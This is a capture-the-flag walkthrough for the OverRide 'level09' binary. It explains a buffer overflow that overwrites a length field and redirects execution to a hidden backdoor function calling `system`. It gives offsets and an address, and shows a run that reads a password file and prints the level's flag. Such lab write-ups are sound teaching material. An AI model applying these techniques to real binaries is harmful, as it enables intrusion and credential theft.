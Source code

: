 # level09 walkthrough

## the binary
``` shell
level09@OverRide:~$ ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: ffarkas
>: Welcome, ffarkas
>: Msg @Unix-Dude
>>: Hello!
>: Msg sent!
```

## methodology
- buffer overflow attack

The binary prompts for a username and message upon execution. By examining the list of functions, we find a `secret_backdoor` function that is not called in the main execution path. This function uses `system` to execute a command. Our task is therefore simple:

- find a way to cause a buffer overflow when entering the input (since `fgets` is used, we need to overflow the buffer by knowing the allocated memory for each array)
- overwrite and control the `EIP` register

The binary uses a structure to manage the data:
``` C
typedef struct s_msg {
	char user_str[40];
	char msg_str[140];
	int str_len;
}	t_msg;
```

The input values are handled by `set_username` and `set_msg` functions respectively:
``` vbnet
F_HANDLE_MSG():
    set message length to 0x8c
        └─> msg.str_len = 140

    F_SET_USERNAME():
        └─ input username
        └─ load into local array
        └─ copy first 0x28 characters to structure
            └─> 40x (msg->user_str[i] = array[i])

    F_SET_MSG():
        └─ input message
        └─ load into local array
        └─ use strncpy to copy msg.str_len characters
            └─> strncpy(msg->msg_str, array, msg->str_len)
```

The first part of the overflow is evident in the source code logic - we use 40 characters reserved for the username and set the `msg.str_len` to the maximum possible value using two hexadecimal digits (8 bits):
``` vbnet
user_str -> 40 characters
str_len -> 0xff (255)
```

As we inspect the `EIP` through its manipulations, we can estimate its position relative to the base of the stack:
``` vbnet
0x00000000000008c4 <+4>:	sub    $0xc0,%rsp
                                        └─> 192 ----┐
0x00000000000009cd <+0>:	push   %rbp             |--> EIP is at base + 200
                                     └─> 8 ---------┘
```

The final piece we need is the address of the `secret_backdoor` function:
``` shell
0x000055555555488c
```

Using this information, we can craft the final payload, spawn an interactive `/bin/sh` shell, and execute the `cat` command to display the flag.
- unfortunately, the shell does not work after executing the first command

## flag
``` shell
level09@OverRide:~$ python /tmp/payload09 > tmp/flag9
level09@OverRide:~$ cat /tmp/flag9 - | ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, FFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF�>: Msg @Unix-Dude
>>: >: Msg sent!
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```
